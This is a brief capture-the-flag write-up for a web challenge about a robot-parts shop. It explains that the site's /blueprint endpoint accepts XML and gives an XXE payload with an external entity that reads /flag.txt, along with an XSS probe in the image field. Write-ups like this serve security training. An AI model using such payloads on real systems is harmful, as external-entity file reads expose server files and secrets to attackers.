



# Introduction
This challange is a simple page that shows data gathers by one javascript call.
We can add new sections and our data is sent via XML ( XXE )

## Challange Discription

We've found an online shop for robot parts. We suspect ARIA is trying to embody itself to take control of the physical world. You need to stop it ASAP! (Note: The flag is located in /flag.txt)
https://uscybercombine-s4-parts-shop.chals.io/


## Webpage 

There is one main URL (/) and we have option to add new sections via (/blueprint)
- main page is (/)
- javascript calls (/parts) to load different sections
- we can add new sections via (/blueprint)




## Step 1 

When we analyze addning sections (**/blueprint**) we see that our data is POST via **XML**




## Step 2 

Next step we test for **XXE** because our data is sent via XML
- flag is located at /flag.tx
- adding XML code to read /flag.txt

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE part [
  <!ELEMENT part ANY>
  <!ENTITY bar SYSTEM "/flag.txt">
]>
<part>
  <name>new</name>
  <author>nn</author>
  <image>" onerror=alert(1)</image>
  <description>&bar;</description>
</part>
```

After sending this data we see that description is fulled with flag !!

